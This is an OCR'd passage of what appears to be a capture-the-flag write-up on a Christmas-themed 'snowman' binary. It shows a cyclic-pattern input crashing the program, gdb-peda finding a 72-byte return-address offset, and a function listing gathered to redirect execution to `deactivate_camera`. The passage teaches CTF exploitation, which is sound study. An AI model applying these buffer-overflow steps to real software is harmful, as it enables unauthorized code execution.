 ```
 \_______/    *   *   *  ***   **                                                                                
                                                                                                                 
                                                                                                                 
[*] This snowman looks sus..                                                                                     
                                                                                                                 
1. Investigate 🔎                                                                                                
2. Let it be   ⛄                                                                                                
> 1                                                                                                              
                                                                                                                 
[!] After some investigation, you found a secret camera inside the snowman!                                      
                                                                                                                 
1. Deactivate ⚠                                                                                                  
2. Break it   🔨                                                                                                 
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL           
                                                                                                                 
[-] Mission failed!                                                                                              
                                                                                                                 
Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffde98: 0x4134414165414149
gdb-peda$ pattern offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Nice, we got the offset/padding. Now we need to know the address of `deactivate_camera` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000400868  _init
0x0000000000400890  putchar@plt
0x00000000004008a0  puts@plt
0x00000000004008b0  fclose@plt
0x00000000004008c0  strlen@plt
0x00000000004008d0  printf@plt
0x00000000004008e0  alarm@plt
0x00000000004008f0  read@plt
0x0000000000400900  srand@plt
0x0000000000400910  fgets@plt
0x0000000000400920  strcmp@plt
0x0000000000400930  time@plt
0x0000000000400940  fflush@plt
0x0000000000400950  setvbuf@plt
0x0000000000400960  fopen@plt
0x0000000000400970  atoi@plt
0x0000000000400980  exit@plt
0x0000000000400990  fwrite@plt
0x00000000004009a0  sleep@plt
```

[Location]: 🎅 Santa's garden..                                                                                  